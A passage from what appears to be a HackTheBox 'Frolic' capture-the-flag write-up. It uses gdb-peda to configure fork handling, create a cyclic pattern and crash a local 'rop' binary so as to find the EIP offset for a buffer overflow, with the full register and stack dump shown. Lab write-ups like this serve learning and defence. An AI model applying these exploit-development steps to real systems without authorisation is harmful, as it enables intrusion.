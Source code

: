 ```text
Starting program: /home/mvaliente/KaliShared/ctf/HackTheBox/Frolic/content/rop "Hello World"
[+] Message sent: Hello World[Inferior 1 (process 379963) exited normally]
Warning: not running
gdb-peda$ 
```

Notice that we get a message in GDB telling us that the the process was detached after a fork from the child process. We can fix that by setting the following commands in GDB.

```text
gdb-peda$ set follow-fork-mode child
gdb-peda$ set detach-on-fork off
```

#### Finding the offset

* **Create the pattern**

Create a randomized pattern in order to find the offset with the EIP value.

```text
gdb-peda$ pattern_create 100
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'
```

* **Find the offset**

Run the binary with the pattern.

```text
gdb-peda$ r 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'
Starting program: /home/mvaliente/KaliShared/ctf/HackTheBox/Frolic/content/rop 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0x79 ('y')
EBX: 0xffffcd20 --> 0x2 
ECX: 0x0 
EDX: 0x5f ('_')
ESI: 0xf7faa000 --> 0x1e4d6c 
EDI: 0xf7faa000 --> 0x1e4d6c 
EBP: 0x31414162 ('bAA1')
ESP: 0xffffccf0 ("AcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
EIP: 0x41474141 ('AAGA')
EFLAGS: 0x10282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x41474141
[------------------------------------stack-------------------------------------]
0000| 0xffffccf0 ("AcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
0004| 0xffffccf4 ("2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
0008| 0xffffccf8 ("AAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
0012| 0xffffccfc ("A3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
0016| 0xffffcd00 ("IAAeAA4AAJAAfAA5AAKAAgAA6AAL")
0020| 0xffffcd04 ("AA4AAJAAfAA5AAKAAgAA6AAL")
0024| 0xffffcd08 ("AJAAfAA5AAKAAgAA6AAL")
0028| 0xffffcd0c ("fAA5AAKAAgAA6AAL")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x41474141 in ?? ()
gdb-peda$ 
```
